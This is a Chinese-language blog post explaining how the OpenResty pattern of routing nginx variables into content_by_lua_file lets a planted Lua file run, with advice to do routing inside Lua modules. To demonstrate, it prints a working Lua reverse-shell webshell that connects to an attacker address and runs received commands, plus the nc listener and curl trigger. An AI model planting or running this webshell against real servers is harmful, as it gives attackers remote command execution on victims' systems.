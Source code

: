 ```yaml
---
layout:     post
title:      OpenResty 中的安全隐患
subtitle:   ""
date:       2017-06-05
author:     ms2008
header-img: img/post-bg-2015.jpg
catalog:    true
tags:
    - Lua
    - OpenResty
typora-root-url: ..
---
```


在 OR 的官方 GitHub 中，介绍了这么一种简单的「路由」写法
```perl
# use nginx var in code path
# CAUTION: contents in nginx var must be carefully filtered,
# otherwise there'll be great security risk!
location ~ ^/app/([-_a-zA-Z0-9/]+) {
    set $path $1;
    content_by_lua_file /path/to/lua/app/root/$path.lua;
}
```

相信不少不同学也都使用了这种简便的方式。然而却忽略了春哥的警告：
> **CAUTION: contents in nginx var must be carefully filtered, otherwise there'll be great security risk!**

这里我来说下这个安全隐患是如何产生的。假如我们现在的路由结构是：
```
root/
├── fan.lua
├── follower.lua
└── user.lua
```

正常情况下我们请求 `/app/user` 就应该执行 `root/user.lua` 代码；`/app/follower` 就应该执行 `root/follower.lua` 代码。这是我们期待的结果。

但是假如你的服务器有文件上传漏洞或 SQL 注入漏洞，被攻击者利用进而植入了一个 `shell.lua` 的 webshell，那么现在我们的路由结构是：
> SQL 注入不仅仅可以拖库，也是可以写 shell 的(SELECT OUTFILE)

```
root/
├── fan.lua
├── follower.lua
├── user.lua
└── shell.lua
```

这时候去请求 `/app/shell`，就自然的去连接这个 webshell 了，这个 `shell.lua` 看起来是这个样子（反弹 shell 到攻击者的地址）：
```lua
local sock = ngx.socket.tcp()
local ok, err = sock:connect("192.168.3.5", "2333")
if not ok then return end

while true do
    local r,x = sock:receive()
    local f = assert(io.popen(r,"r"))
    local b = assert(f:read("*a"))
    sock:send(b)
end

f:close()
sock:close()
```

我先在我的攻击机上执行（准备接收反弹回来的 shell）
```
nc -lvv 2333
```

开启另一个终端执行
```
curl http://victim/app/shell
```

回到 nc 查看权限：

![](/img/in-post/attacker.png)

接下来的就是去提权了。。。


要避免这个问题，就是要在匹配路径上做出更为严格的限制，但是这会导致 nginx.conf 可读性较差。

我的建议是路由还是直接放在 lua 里完成，这样我们的 `handler()` 可以获得更为安全的签名保护。反观今天的测试，其实本质上还是因为我们执行了不该信任的代码(没有签名)，最终导致系统沦陷。如果使用 lua 模块化（相当于签名）的路由方式，就可以避免这个问题（即使你拿到了上传或注入的漏洞，最多也就是拖个库，也不会拿到整个系统的权限）。

------

有人说，时间是把杀猪刀。这很公平。但是，即使哪天挨上了这把杀猪刀，也希望自己是头优雅的猪。

而此时，2017 已经过去 1/2